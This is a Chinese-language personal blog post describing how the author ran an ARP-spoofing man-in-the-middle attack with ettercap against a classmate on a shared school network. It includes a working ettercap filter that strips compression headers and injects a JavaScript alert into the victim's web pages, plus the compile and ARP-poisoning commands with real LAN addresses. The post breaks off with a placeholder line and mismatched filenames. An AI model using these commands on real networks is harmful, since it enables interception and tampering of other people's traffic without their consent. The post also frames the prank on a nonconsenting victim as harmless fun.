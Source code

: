 ```yaml
---
layout: post
title: 记一次非针对LGC的中间人攻击
excerpt: 真的是非针对哦(¬_¬)
date:   2016-09-13
tag:
  - hack
---
```


## 序
自从昨天9月12日停电以后，历二信竞队教室原本70Mbs的网络，莫名其妙的降到了10Mbs不到……网页大规模卡崩，ping baidu.com丢包严重。这对于历二信竞队来讲，简直就是一场灾难……  
  这差不多算是没了网，奥赛室一片死寂。Gengxin抬头望去，LGC居然还在看视频！！！  
  他在看视频！  
  在看视频！  
  看视频！  
  视频！  
  频！  
  ！  
这个就有点尴尬了……既然全教室的网这么慢，你还在看视频!Gengxin有点小愤怒。打开路由器管理界面，嗯……流量全在LGC那。很久以前就发现，LGC的小笔记本网卡似乎比我们的更好一点，在很远的地方也能收到wifi信号，并且……还是接近满格！如果让流量先经过Gengxin的渣渣网卡呢？\\(¬\_¬\)于是Gengxin默默的打开了自己的Kali虚拟机。  

## One
首先科普一下，什么是中间人攻击。  
中间人攻击（Man-in-the-middle attack，缩写：MITM）是指攻击者与通讯的两端分别创建独立的联系，并交换其所收到的数据，使通讯的两端认为他们正在通过一个私密的连接与对方直接对话，但事实上整个会话都被攻击者完全控制。（以上引自[维基百科](https://zh.wikipedia.org/wiki/%E4%B8%AD%E9%97%B4%E4%BA%BA%E6%94%BB%E5%87%BB)）。简单的说，就是LGC电脑的流量都会流经Gengxin的电脑，而路由器和LGC的电脑都会傻傻的以为自己正在安全的连接对方。  
这里，Gengxin用了一个非常有名的多用途嗅探器——ettercap。其实如果不用这个工具的话，攻击的过程也十分简单，可以用一个Python脚本轻松实现——scapy库查看编辑数据包是十分方便的。  

## Two  

Kali系统下ettercap是预置的，所以我不需要额外的安装。
<figure>
  <a href=""><img src=""></a>
</figure>
好的，既然LGC在浏览网页，那就来个HTML注入好了。“Gengxin 想 ban 你 哦”。  
我们首先要写一个过滤脚本。  

~~~   
if (ip.proto == TCP && tcp.dst == 80)
{
    if (search(DATA.data, "Accept-Encoding"))
    {
        replace("Accept-Encoding", "Q'W'Q");
        msg("就是不让你压缩Q'W'Q\n");
    }
}
if (ip.proto == TCP && tcp.src == 80)
{
    replace("<head>", "<head><script type="text/javascript">alert('Gengxin想ban你哦Q/W\Q');</script>");
    replace("<HEAD>", "<HEAD><script type="text/javascript">alert('Gengxin想ban你哦Q/W\Q')');</script>");
    msg("成功注入Q'W'Q!!\n");
}  
~~~   


这段代码第一个if块，是如果网页源码中有Accept-Encoding的时候，替换掉它（Accept-Encoding是声明浏览器支持的编码类型，在这里可以理解为请求压缩的意思）。第二个if块就是我们插入HTML的地方了。js代码里`alert("")`会使网页出现一个弹窗。这就是我要达到的目的。  

OK，把这段代码保存为`banLGC.filter`.   

接下来，编译我们刚刚的banLGC.filter脚本。代码如下：

~~~
etterfilter banLGC.filter -o banLGC.ef
~~~

zhanwei

~~~
ettercap -i eth0 -Tq -M arp:remote /192.168.31.106// /192.168.31.1// -F alert.ef
~~~
